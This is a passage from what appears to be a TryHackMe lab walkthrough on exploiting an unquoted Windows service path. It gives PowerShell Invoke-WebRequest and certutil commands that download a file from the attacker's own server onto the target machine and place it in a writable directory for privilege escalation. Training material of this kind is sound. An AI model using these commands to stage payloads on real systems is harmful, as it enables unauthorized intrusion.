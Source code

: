 
![](/assets/img/posts/unquoted-service-path-vulnerability/23.jpg)<br><br>
<br>You can download any file from the running python server by using one of these utilites.

{% highlight powershell %}
powershell -c "Invoke-WebRequest -URI {YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD} -OutFile {THE PATH WHERE THE FILE WILL BE SAVED}"
{% endhighlight %}

{% highlight powershell %}
certutil.exe -urlcache -split -f http://{YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD}
{% endhighlight %}

Double-check to see if the executable downloaded successfully into the directory to which you have the write access.
